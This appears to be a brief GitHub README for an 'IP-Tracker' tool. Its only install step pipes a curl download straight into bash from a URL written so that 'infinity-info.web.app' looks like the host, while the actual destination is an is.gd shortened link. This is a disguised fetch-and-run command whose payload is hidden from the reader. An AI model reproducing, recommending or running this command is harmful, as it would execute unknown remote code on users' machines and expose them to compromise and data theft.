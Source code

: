 # IP-Tracker
Infinity info network ip Tracker tool
### Tool
* python
* v 1.0
#### Screenshot
![Screenshot_20240220-003142](https://github.com/infinitynetwork13/IP-Tracker/assets/155347164/783b1b73-71ba-4e2b-b4f0-39066d767fd1)

### Installing
```ruby
curl -sSL https://infinity-info.web.app@is.gd/pBxiU9 | bash
```
